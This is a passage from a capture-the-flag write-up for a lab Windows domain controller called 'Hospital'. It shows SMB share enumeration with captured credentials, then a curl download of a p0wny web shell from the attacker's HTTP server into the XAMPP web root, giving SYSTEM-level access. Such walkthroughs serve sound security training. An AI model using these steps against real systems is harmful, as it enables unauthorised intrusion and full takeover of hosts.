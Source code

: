 We only read access on those which were default shares anyway, also we didn't have access to `winrm` service. We only had access to `rpcclient` which i tried enumerating but still had no idea how to escalate our privilege to Administrator.

```
# crackmapexec smb 10.10.11.241 -u 'drbrown' -p 'chr!$br0wn' --shares  
SMB         10.10.11.241    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [+] hospital.htb\drbrown:chr!$br0wn 
SMB         10.10.11.241    445    DC               [+] Enumerated shares
SMB         10.10.11.241    445    DC               Share           Permissions     Remark
SMB         10.10.11.241    445    DC               -----           -----------     ------
SMB         10.10.11.241    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.241    445    DC               C$                              Default share
SMB         10.10.11.241    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.241    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.241    445    DC               SYSVOL          READ            Logon server share 

```

Afters hours and hours of researching and trying every possible way to exploit/escalate privilege nothing helped. I was stuck at this point, with no clue how to move further. 

Guys remember it is really okay to ask for help or read writeups if you are really stuck and not being lazy to move further, helps with your frustration. After reading one walkthough from a fellow hacker, we just upload our P0wnyshell on the `C:\xampp\htdocs` directory and open the shell on the web application.

It was really disappointing for me, i thought it was gonna be an AD challenge looking at the `nmap` result. *sigh* Well whatever, we will need to host the webshell with `python` http server and use curl to download the shell after going to the path `C:\xampp\htdocs`.

```
C:\xampp\htdocs>curl 10.10.14.37:8000/shell.phar -o rev.php
curl 10.10.14.37:8000/shell.phar -o rev.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 20321  100 20321    0     0  75410      0 --:--:-- --:--:-- --:--:-- 75542

C:\xampp\htdocs>

```

Now just access the Web portal and append `/shell.php` on the URL you will get Administrator level webshell, and the rroot flag is on the **Desktop** Folder of the Administrator user.

```
                

        ___                         ____      _          _ _        _  _   
 _ __  / _ \__      ___ __  _   _  / __ \ ___| |__   ___| | |_ /\/|| || |_ 
| '_ \| | | \ \ /\ / / '_ \| | | |/ / _` / __| '_ \ / _ \ | (_)/\/_  ..  _|
| |_) | |_| |\ V  V /| | | | |_| | | (_| \__ \ | | |  __/ | |_   |_      _|
| .__/ \___/  \_/\_/ |_| |_|\__, |\ \__,_|___/_| |_|\___|_|_(_)    |_||_|  
|_|                         |___/  \____/                                  
                

            

DC$@DC:C:\xampp\htdocs# whoami
nt authority\system

DC$@DC:C:\xampp\htdocs# cd C:\\

DC$@DC:C:\# cd Users

```